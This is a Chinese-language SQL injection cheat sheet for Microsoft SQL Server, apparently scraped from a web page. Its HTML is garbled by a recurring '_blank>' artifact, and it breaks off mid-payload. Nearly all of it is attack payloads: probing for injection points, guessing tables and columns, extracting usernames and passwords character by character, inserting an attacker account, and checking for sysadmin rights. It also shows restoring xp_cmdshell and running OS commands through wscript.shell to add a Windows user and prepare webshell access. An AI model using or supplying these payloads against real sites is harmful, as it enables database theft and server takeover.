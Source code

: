                                             <p>1.判断有无注入点&nbsp;<br>; and 1=1 and 1=2</p><p><br>2.猜表一般的表的名称无非是admin adminuser user pass password 等..&nbsp;<br>and 0&lt;&gt;(select count(*) from *)&nbsp;<br>and 0&lt;&gt;(select count(*) from admin) ---判断是否存在admin这张表</p><p>3.猜帐号数目 如果遇到0&lt; 返回正确页面 1&lt;返回错误页面说明帐号数目就是1个&nbsp;<br>and 0&lt;(select count(*) from admin)&nbsp;<br>and 1&lt;(select count(*) from admin)</p><p>4.猜解字段名称 在len( ) 括号里面加上我们想到的字段名称.&nbsp;<br>and 1=(select count(*) from admin where len(*)&gt;0)--&nbsp;<br>and 1=(select count(*) from admin where len(用户字段名称name)&gt;0)&nbsp;<br>and 1=(select count(*) from admin where len(_blank&gt;密码字段名称password)&gt;0)</p><p>5.猜解各个字段的长度 猜解长度就是把&gt;0变换 直到返回正确页面为止&nbsp;<br>and 1=(select count(*) from admin where len(*)&gt;0)&nbsp;<br>and 1=(select count(*) from admin where len(name)&gt;6) 错误&nbsp;<br>and 1=(select count(*) from admin where len(name)&gt;5) 正确 长度是6&nbsp;<br>and 1=(select count(*) from admin where len(name)=6) 正确</p><p>and 1=(select count(*) from admin where len(password)&gt;11) 正确&nbsp;<br>and 1=(select count(*) from admin where len(password)&gt;12) 错误 长度是12&nbsp;<br>and 1=(select count(*) from admin where len(password)=12) 正确</p><p>6.猜解字符&nbsp;<br>and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位&nbsp;<br>and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位&nbsp;<br>就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了&nbsp;<br>and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51) --&nbsp;<br>这个查询语句可以猜解中文的用户和_blank&gt;密码.只要把后面的数字换成中文的ASSIC码就OK.最后把结果再转换成字符.</p><p>group by users.id having 1=1--&nbsp;<br>group by users.id, users.username, users.password, users.privs having 1=1--&nbsp;<br>; insert into users values( 666, attacker, foobar, 0xffff )--</p><p>UNION SELECT TOP 1 COLUMN_blank&gt;_NAME FROM INFORMATION_blank&gt;_SCHEMA.COLUMNS</p><p>WHERE TABLE_blank&gt;_NAME=logintable-&nbsp;<br>UNION SELECT TOP 1 COLUMN_blank&gt;_NAME FROM INFORMATION_blank&gt;_SCHEMA.COLUMNS</p><p>WHERE TABLE_blank&gt;_NAME=logintable WHERE COLUMN_blank&gt;_NAME NOT IN (login_blank</p><p>&gt;_id)-&nbsp;<br>UNION SELECT TOP 1 COLUMN_blank&gt;_NAME FROM INFORMATION_blank&gt;_SCHEMA.COLUMNS</p><p>WHERE TABLE_blank&gt;_NAME=logintable WHERE COLUMN_blank&gt;_NAME NOT IN (login_blank</p><p>&gt;_id,login_blank&gt;_name)-&nbsp;<br>UNION SELECT TOP 1 login_blank&gt;_name FROM logintable-&nbsp;<br>UNION SELECT TOP 1 password FROM logintable where login_blank&gt;_name=Rahul--</p><p>看_blank&gt;服务器打的补丁=出错了打了SP4补丁&nbsp;<br>and 1=(select @@VERSION)--</p><p>看_blank&gt;数据库连接账号的权限，返回正常，证明是_blank&gt;服务器角色sysadmin权限。&nbsp;<br>and 1=(SELECT IS_blank&gt;_SRVROLEMEMBER(sysadmin))--</p><p>判断连接_blank&gt;数据库帐号。（采用SA账号连接 返回正常=证明了连接账号是SA）&nbsp;<br>and sa=(SELECT System_blank&gt;_user)--&nbsp;<br>and user_blank&gt;_name()=dbo--&nbsp;<br>and 0&lt;&gt;(select user_blank&gt;_name()--</p><p>看xp_blank&gt;_cmdshell是否删除&nbsp;<br>and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype = X AND name = xp_</p><p>blank&gt;_cmdshell)--</p><p>xp_blank&gt;_cmdshell被删除，恢复,支持绝对路径的恢复&nbsp;<br>;EXEC master.dbo.sp_blank&gt;_addextendedproc xp_blank&gt;_cmdshell,xplog70.dll--&nbsp;<br>;EXEC master.dbo.sp_blank&gt;_addextendedproc xp_blank&gt;_cmdshell,c:\inetpub\wwwroot\</p><p>xplog70.dll--</p><p>反向PING自己实验&nbsp;<br>;use master;declare @s int;exec sp_blank&gt;_oacreate "wscript.shell",@s out;exec sp_blank&gt;</p><p>_oamethod @s,"run",NULL,"cmd.exe /c ping 192.168.0.1";--</p><p>加帐号&nbsp;<br>;DECLARE @shell INT EXEC SP_blank&gt;_OACREATE wscript.shell,@shell OUTPUT EXEC SP_blank&gt;</p><p>_OAMETHOD @shell,run,null, C:\WINNT\system32\cmd.exe /c net user jiaoniang$Content$nbsp;1866574 /add--</p><p>创建一个虚拟目录E盘：&nbsp;<br>;declare @o int exec sp_blank&gt;_oacreate wscript.shell, @o out exec sp_blank&gt;_oamethod @o,</p><p>run, NULL, cscript.exe c：\inetpub\wwwroot\mkwebdir.vbs -w "默认Web站点" -v "e","e：\"--</p><p>访问属性：（配合写入一个webshell）&nbsp;<br>declare @o int exec sp_blank&gt;_oacreate wscript.shell, @o out exec sp_blank&gt;_oamethod @o,</p><p>run, NULL, cscript.exe c：\inetpub\wwwroot\chaccess.vbs -a w3svc/1/ROOT/e +browse</p><p>&nbsp;</p><p><br>爆库 特殊_blank&gt;技巧：:%5c=\ 或者</p><p>&nbsp;</p><p>您正在看的SQLserver教程是:sql注入语句。把/和\ 修改%5提交&nbsp;<br>and 0&lt;&gt;(select top 1 paths from newtable)--</p><p>得到库名（从1到5都是系统的id，6以上才可以判断）&nbsp;<br>and 1=(select name from master.dbo.sysdatabases where dbid=7)--&nbsp;<br>and 0&lt;&gt;(select count(*) from master.dbo.sysdatabases where name&gt;1 and dbid=6)&nbsp;<br>依次提交 dbid = 7,8,9.... 得到更多的_blank&gt;数据库名</p><p>and 0&lt;&gt;(select top 1 name from bbs.dbo.sysobjects where xtype=U) 暴到一个表 假设为 admin&nbsp;<br>and 0&lt;&gt;(select top 1 name from bbs.dbo.sysobjects where xtype=U and name not in (Admin))</p><p>来得到其他的表。&nbsp;<br>and 0&lt;&gt;(select count(*) from bbs.dbo.sysobjects where xtype=U and name=admin&nbsp;<br>and uid&gt;(str(id))) 暴到UID的数值假设为18779569 uid=id&nbsp;<br>and 0&lt;&gt;(select top 1 name from bbs.dbo.syscolumns where id=18779569) 得到一个admin的一个</p><p>字段,假设为 user_blank&gt;_id&nbsp;<br>and 0&lt;&gt;(select top 1 name from bbs.dbo.syscolumns where id=18779569 and name not in&nbsp;<br>(id,...)) 来暴出其他的字段&nbsp;<br>and 0&lt;(select user_blank&gt;_id from BBS.dbo.admin where username&gt;1) 可以得到用户名&nbsp;<br>依次可以得到_blank&gt;密码。。。。。假设存在user_blank&gt;_id username ,password 等字段</p><p>and 0&lt;&gt;(select count(*) from master.dbo.sysdatabases where name&gt;1 and dbid=6)&nbsp;<br>and 0&lt;&gt;(select top 1 name from bbs.dbo.sysobjects where xtype=U) 得到表名&nbsp;<br>and 0&lt;&gt;(select top 1 name from bbs.dbo.sysobjects where xtype=U and name not in(Address))&nbsp;<br>and 0&lt;&gt;(select count(*) from bbs.dbo.sysobjects where xtype=U and name=admin and uid&gt;(s</p><p>tr(id))) 判断id值&nbsp;<br>and 0&lt;&gt;(select top 1 name from BBS.dbo.syscolumns where id=773577794) 所有字段</p><p>?id=-1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,* from admin&nbsp;<br>?id=-1 union select